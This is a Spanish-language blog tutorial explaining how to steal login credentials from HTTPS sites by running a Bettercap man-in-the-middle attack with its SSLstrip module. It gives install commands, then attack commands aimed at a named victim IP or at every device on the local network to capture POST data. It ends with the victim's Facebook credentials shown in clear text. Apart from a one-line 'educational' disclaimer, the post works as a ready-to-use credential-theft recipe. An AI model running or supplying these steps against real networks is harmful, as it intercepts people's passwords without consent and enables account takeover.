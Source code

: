 +++
date = "2017-01-08"
title = "Obtener credenciales HTTPS con Bettercap y SSLstrip"
author = "Javier Olmedo"
toc = false
+++

[![/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_banner.png](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_banner.png)](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_banner.png)

Para empezar este 2017, os traigo un tutorial sobre **cómo obtener las credenciales de sitios web que tengan cifrado SSL/TLS (HTTPS)** mediante una técnica llamada **SSLstrip** y el uso de un **framework para realizar ataques MITM** (ataque de hombre en el medio) llamado Bettercap, en Internet, existen multitud de tutoriales para realizar este ataque pero aquí os enseñaré como realizarlo de una manera muy simple.

Este tutorial lo hago con **fines educativos y sobre todo éticos, no me hago responsable del mal uso que podáis dar con lo aprendido aquí**.

## ¿Qué son las páginas https? ¿Qué diferencias hay con las http?

[![/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_001.png](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_001.png)](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_001.png)

Muchas veces, nos damos cuenta cuando accedemos a alguna web, que aparece un **candado verde en la parte izquierda de la barra de direcciones**, esto quiere decirnos, que **nuestra conexión con el servidor es segura**, es decir, **el tráfico entre los dos puntos viaja cifrado**.

Este tipo de páginas **podemos encontrarlas** en aquellas que requieran un **nivel «extra» de seguridad** debido a que en ellas se maneja **información sensible** como por ejemplo **contraseñas, números de tarjeta de crédito o información confidencial**.

Un ejemplo del uso de estas páginas pueden ser las **web de los bancos, páginas dedicadas al comercio electrónico (tiendas online) o sitios populares como Google, Facebook o Twitter**.

Podríamos decir que **la diferencia entre https y http es que la información se envía cifrada** para evitar que un tercero capture el tráfico y vea lo que en ella se envía, el trafico https puede ser de igual manera capturado que el tráfico http, pero **no podríamos leer lo que contiene** (en principio).

## Bettercap y SSLstrip

[![/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_002.png](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_002.png)](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_002.png)

Bettercap es un **framework que se utiliza para realizar ataques MITM** (Man In The Middle) o hombre en el medio, estos ataques consisten básicamente en **interponerse entre 2 equipos para ver que datos se intercambian**.

A continuación os dejo unos links por si queréis echar un vistazo más a fondo a esta estupenda herramienta.

- [Sitio ofical de Bettercap](https://www.bettercap.org/)
- [GitHub de Bettercap](https://github.com/evilsocket/bettercap)

## Pero, ¿con interponerme en mitad de la conexión es suficiente?

Como bien os había dicho anteriormente, simplemente **interponiéndonos en la conexión entre 2 equipos no es suficiente**, necesitamos hacer uso de **SSLstrip para poder leer lo que en ella se envía**, más adelante lo veremos, os dejo un enlace hacia esta herramienta creada por Moxie Marlinspike.

- [GitHub de SSLstrip](https://github.com/moxie0/sslstrip)

## Instalación de Bettercap.

Para instalar Bettercap, abrimos un terminal **con permisos de superusuario** y escribimos:

1. Instalación de dependencias

```bash
apt-get install build-essential ruby-dev libpcap-dev
```

2. Clonamos el repositorio a nuestro equipo.

```bash
git clone https://github.com/evilsocket/bettercap
```

3. Nos posicionamos en la carpeta del proyecto

```bash
cd bettercap
```

4. Construimos las gemas.

```bash
gem build bettercap.gemspec
```

5. Instalamos las gemas

```bash
gem install bettercap*.gem
```

## Uso de Bettercap y SSLstrip

Bettercap ya trae un módulo para realizar ataques SSLstrip, por eso **creo que esta es la manera más sencilla para realizar este ataque**, si conocéis otra manera más rápida y efectiva de realizar este ataque, **os invito a que podáis publicarlo a continuación de este artículo**.

Abrimos una terminal y escribimos:

```bash
bettercap
```

Deberíamos de ver todos los dispositivos conectados a nuestra red, es hora de acordarnos de **la IP de la víctima, que en mi caso sería la IP 192.168.100.251**.

[![/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_003.png](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_003.png)](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_003.png)

Una vez sabemos la IP de la víctima, inicializamos Bettercap de la siguiente manera:

```bash
bettercap -T [IP VÍCTIMA] --proxy -P POST
```

En mi caso quedaría de la siguiente manera: `bettercap -T 192.168.100.251 –proxy -P POST`

Si queremos que el ataque se realice a toda la red, simplemente no especificamos la IP de la víctima, y comenzará a captura todo el tráfico de red.

```bash
bettercap -T --proxy -P POST
```

Una vez la víctima acceda a cualquier página https (en este caso Facebook).

[![/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_004.png](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_004.png)](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_004.png)

Podremos ver el tráfico descifrado, y por lo tanto, las credenciales en texto claro.

[![/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_005.png](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_005.png)](/images/obtener-credenciales-https-con-bettercap-y-sslstrip/obtener-credenciales-https-con-bettercap-y-sslstrip_005.png)

Un saludo a todos.

Happy Hacking!!!